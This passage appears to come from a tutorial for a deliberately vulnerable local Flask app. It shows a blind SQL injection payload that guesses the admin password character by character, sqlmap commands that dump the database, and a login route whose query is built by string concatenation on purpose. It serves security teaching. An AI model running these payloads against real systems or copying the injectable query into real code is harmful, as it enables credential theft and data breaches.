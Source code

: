     - Access http://localhost:5000/search
  
     - Enter search term: `' AND (SELECT SUBSTR(password,1,1) FROM user WHERE username='admin')='s`
  
      Expected result: If the first character of admin's password is 's', you'll see results. If not, you'll see no results.
  
      Explanation: This injection allows you to guess the password one character at a time. You'd need to repeat this process for each character position and possible character.


    d. Automated SQL Injection with SQLmap
  
     ```cmd
     sqlmap -u "http://localhost:5000/login" --data="username=admin&password=password" -p username --dbs
     ```
  
     Expected output: SQLmap should detect that the username parameter is vulnerable to SQL injection and attempt to retrieve database information.

   
     Run SQLmap against the search page:
  
     ```cmd
     sqlmap -u "http://localhost:5000/search" --data="search=test" -p search --dump
     ```
  
      Expected output: SQLmap should detect the vulnerability and attempt to dump the contents of the database.




## Vulnerabilities Exploration

### 1. Database Setup:

```python
class User(db.Model):
    id = db.Column(db.Integer, primary_key=True)
    username = db.Column(db.String(80), unique=True, nullable=False)
    password = db.Column(db.String(120), nullable=False)
    email = db.Column(db.String(120), unique=True, nullable=False)
    role = db.Column(db.String(20), nullable=False)
```

This defines our User model. It's not inherently vulnerable, but it's the structure an attacker would try to exploit.

### 2. Vulnerable Login Route:

```python
@app.route('/login', methods=['GET', 'POST'])
def login():
    if request.method == 'POST':
        username = request.form['username']
        password = request.form['password']
        
        # Vulnerable query
        query = f"SELECT * FROM user WHERE username = '{username}' AND password = '{password}'"
        print("Executing query:", query)  # Debug print
        result = db.session.execute(text(query))
        user = result.fetchone()
        
        if user:
            return f"Welcome, {username}! Your role is: {user.role}"
        else:
            return "Login failed."
```
